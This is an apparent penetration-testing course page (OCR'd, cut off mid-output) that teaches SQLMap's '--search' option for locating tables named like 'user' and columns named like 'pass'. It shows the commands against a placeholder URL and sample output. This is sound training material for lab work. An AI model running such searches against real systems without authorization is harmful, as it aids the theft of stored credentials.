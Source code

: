 
## Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the`--search` option. This option enables us to search for identifier names by using the`LIKE` operator. For example, if we are looking for all of the table names containing the keyword`user`, we can run SQLMap as follows:


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users |
+-----------------+

Database: master
[1 table]
+-----------------+
| users |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. We could also have tried to search for all column names based on a specific keyword (e.g.`pass`):


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column | Type |
```